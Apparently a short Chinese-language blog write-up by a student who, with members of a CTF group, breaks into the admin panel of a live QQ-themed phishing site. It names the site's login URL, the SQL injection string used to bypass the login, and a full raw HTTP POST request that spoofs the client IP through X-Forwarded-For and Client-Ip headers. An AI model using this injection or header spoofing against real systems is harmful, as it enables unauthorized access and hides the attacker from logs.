 # 一次后台登陆实验
<font size=5>
看着比赛群里大佬在搞一些钓鱼网站，跟着混一混，涨一涨姿势。

## 钓鱼网站后台
http://qznoe.qq.com.xklove.xyz/admin/login.php

初始的域名就是钓鱼的界面

## 师傅们的方法
打开网站后台
![](./img/1.png)
其实很简单，直接用万能密码

	1' or 1=1 or '1'='1
直接搞定


![](./img/2.png)


## 伪造ip的事情
之后师傅们把原来网站上非法窃取的用户数据全部删除后，就成了兄弟们的练习靶场，开始互相比，谁的数据更骚。

这里我发现师傅门都是伪造的ip地址，于是我也请教了一波。
### 两种方法， X-Forward-For，或者Client-Ip。
之前做过题目，用的是 X-Forward-For，结果这一次服务端没有用相应的函数，直接将我的ip暴漏在数据库里。多亏好心的师傅把我的数据删除了。其实Client-Ip跟xff用法一样，区别是服务端用什么来获取。

最后附上伪造ip的数据包。
![](./img/3.png)

	POST /2017.php HTTP/1.1
	Host: qznoe.qq.com.xklove.xyz
	User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:67.0) Gecko/20100101 Firefox/67.0
	 X-Forward-For:lalala
	Client-Ip:xj cxk
	Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
	Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
	Accept-Encoding: gzip, deflate
	Referer: http://qznoe.qq.com.xklove.xyz/
	Content-Type: application/x-www-form-urlencoded
	Content-Length: 24
	Connection: close
	Cookie: PHPSESSID=hjrusuvmjg60jsgb9dvegmfae0
	Upgrade-Insecure-Requests: 1
	
	u=xjtu cxk&p=cxk&submit=